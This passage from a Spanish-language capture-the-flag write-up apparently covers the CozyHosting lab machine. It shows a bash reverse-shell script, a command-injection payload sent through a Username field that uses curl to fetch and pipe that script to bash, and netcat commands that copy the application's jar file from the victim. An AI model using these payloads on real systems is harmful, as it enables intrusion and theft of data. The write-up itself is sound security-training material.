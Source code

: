 Este es el contenido de `holas.sh`:

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.164/4440 0>&1'
```

Simplemente indicamos que al ser ejecutado, envie al puerto `4440` de nuestro sistema una `bash`.

* Levantamos puerto **4440**: `nc -lvp 4440`.
* Y levantamos puerto **8000**: `python3 -m http.server`.

Tomamos el valor resultante del script:

```bash
a`curl${IFS}http://10.10.14.164:8000/holas.sh|bash`;#
```

Lo enviamos como **Username** yyyyyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cozyhosting/htb559_bash_appRevSH.png" style="width: 100%;"/>

# Espiando código: app -> josh [#](#lateral-cloudhostingjar-app2josh) {#lateral-cloudhostingjar-app2josh}

En el sistema encontramos un archivo curioso:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cozyhosting/htb559_appSH_bash_lsLA_cloudhostingJARfile.png" style="width: 100%;"/>

Podemos pensar que es un backup de la aplicación o incluso el propio codigo fuente usado actualmente.

Como tenemos acceso de lectura, podemos transferirlo a neustro sistema y verlo comodamente, hay muchas maneras, yo usaré `netcat`:

En nuestra máquina de atacantes, levantamos un puerto, indicandole que todo el contenido que llegue a ese puerto lo guarde en un archivo:

```bash
nc -lvp 4441 > cloudhosting-0.0.1.jar
```

Y en la máquina victima, hacemos que genere una conexión contra ese puerto de nuestra máquina, pasandole el contenido del archivo en cuestion:

```bash
nc -w 20 10.10.14.164 4441 < cloudhosting-0.0.1.jar
```

Finalmente validamos la integridad del archivo que enviamos, ejecutamos tanto en la victima como en nuestro sistema:

```bash
md5sum cloudhosting-0.0.1.jar
```

Si nos da el mismo hash, estamos bien (: Si no, repites el proceso.
